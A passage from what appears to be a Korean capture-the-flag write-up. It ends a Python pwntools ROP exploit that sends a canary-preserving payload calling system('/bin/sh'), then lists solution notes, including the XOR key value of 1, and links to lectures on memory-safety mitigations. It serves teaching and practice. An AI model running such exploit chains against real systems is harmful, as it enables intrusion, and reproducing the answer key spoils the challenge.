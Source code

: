 ```python
        pop_rdi = libc_base + 0x000000000002a3e5

        payload = b'a' * 0x8 + p64(0) + b'a' * 0x18 + p64(canary) + p64(sfp - 0x800) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system_p)
        p.send(payload) #s
        p.sendafter(b'>', b'a') # buf

        p.interactive()
        p.close()
    except EOFError:
        print("EOFError")
        p.close()
    except struct.error:
        print("structError")
        p.close()
```

## 주의할 점

- OOB 취약점에서 (입력값 - 1)을 인덱스로 한다는 것을 주의합니다.
- libc leak은 대놓고 줄려는 의도입니다. `buf`배열의 출력으로도 구할 수 있지만 이 모든 취약점을 해낸 풀이자가 그 쉬운 leak을 못하지 않을 것이라고 생각해 꼬아놓지 않았습니다.
- 키를 구하기 위해서 1001 * 1001 * 1001 번을 직접 돌리지 않아도 됩니다. 같은 값을 두 번 xor하면 xor 하지 않은 것과 같은 점을 고려하여 1001 번만 돌려봐도 key값이 도출됩니다.
- key값은 1입니다.
- 레이스 컨디션 특성상 빠르게 입력하지 않으면 익스가 안 될 수 있습니다. 넉넉잡아 10억 번의 연산을 수행하게 해놨지만 그래도 빠르게 입력을 보내는 것이 옳습니다.
- ROP를 하다가 메모리를 잘못 건들이면 `Segmentation Fault`가 발생하기 때문에 이를 유의합니다.
- `nbytes`의 절반만큼 0으로 초기화하기 때문에 `nbytes`를 작게 설정한 경우 ROP가 제대로 진행되지 않을 수 있습니다.

## 레퍼런스

- [RELRO](https://dreamhack.io/lecture/courses/99)
- [카나리(Canary)](https://dreamhack.io/lecture/courses/112)
- [Non-Executable stack (NX)](https://dreamhack.io/lecture/courses/50)
- [Position Independent Executable (PIE)](https://dreamhack.io/lecture/courses/113)
- [Out-Of-Bounds (OOB)](https://dreamhack.io/lecture/courses/115)
- [Address Space Layout Randomization (ASLR)](https://dreamhack.io/lecture/courses/85)
- [스택 버퍼 오버플로(Stack Buffer Overflow)](https://dreamhack.io/lecture/courses/60)
- [Race-Condition](https://en.wikipedia.org/wiki/Race_condition)